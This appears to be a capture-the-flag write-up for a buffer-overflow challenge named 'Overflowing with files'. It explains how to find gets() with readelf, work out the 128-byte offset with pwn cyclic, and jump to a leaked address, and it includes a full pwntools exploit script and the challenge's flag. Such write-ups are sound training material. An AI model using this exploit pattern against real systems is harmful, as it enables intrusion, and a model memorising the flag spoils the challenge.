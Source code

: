 ### Overflowing with files

Given chal, which is an ELF
run `readelf -s chal`, I'm looking for vulnerable functions in dynamic library or maybe some user-defined functions
There is `gets()` function, so this is another buffer overflow problem.

Setup another `pwned2.py`, with same code structure as portal

Run the ELF, how nice that they give the address we need to give to rip (return instruction pointer), so in pwntools, read the input prompt, extract that hex address and put in into a payload

This time, I use `pwn cyclic 400` to generate a cyclic text, then run it in gdb (or gef), then `pwn cyclic -l <pattern>` where pattern is the thing that replaces the address in initial prompt. This gets the offset of 128.

Some manouvering with hex address and endianness, voila.

**SECEDU{h0w_c4n_u_0v3rfl0w_with_0n3_f1le?}**
```
from pwn import *

host = "chals.secedu.site"
port = 5001
offset = 128

elf = ELF("./chal")
# this for debugging purpose, real deal is remote()
# p = elf.process()
p = remote(host, port)

info = p.recv()
addr = info.split(b'\n')[0].split()[-1]
addr = int(addr.decode(), 16)
log.info(info)

payload = b'O' * offset + p32(addr)

p.sendline(payload)
log.success(p.recv())
```